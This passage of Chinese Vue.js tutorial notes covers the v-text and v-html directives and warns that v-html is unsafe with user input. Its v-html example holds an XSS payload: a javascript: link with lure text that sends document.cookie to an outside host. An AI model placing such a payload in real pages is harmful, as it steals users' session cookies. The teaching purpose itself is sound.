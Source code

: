 ```html
					return dayjs(value).format(str)
				}
			}
		})
		new Vue({
			el:'#root2',
			data:{
				msg:'hello,atguigu!'
			}
		})
	</script>
</html>
```



## 3.5 内置指令

### v-text


向其所在的节点中渲染文本内容，并且div容器内的节点东西都会被替换掉，div里写啥都没用。读不出来


```html
<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
            //
			<div v-text="name"></div>
		</div>

name来自实例对象里的data根数据。
```



### v-html

向其所在的节点中渲染html内容，里边写有任何html的标签，都能被渲染读取成html。

如下的`str2`，会引起安全问题，不能建立在用户输入的内容上，cookie的讲解！

```html
	<body>
<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
```
